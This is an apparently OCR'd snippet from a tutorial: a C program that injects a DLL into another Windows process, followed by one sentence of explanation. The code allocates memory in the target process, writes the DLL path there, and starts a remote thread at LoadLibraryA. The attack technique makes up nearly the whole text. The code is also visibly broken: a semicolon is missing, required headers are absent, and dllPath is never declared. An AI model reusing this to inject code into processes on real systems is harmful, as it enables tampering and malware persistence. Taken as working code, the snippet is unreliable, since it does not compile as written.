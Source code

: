 ````
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
````
The second example illustrates the use of LoadLibrary for DLL injection. This process involves allocating memory within the target process for the DLL path and then initiating a remote thread that begins at LoadLibrary and directs towards the DLL path.
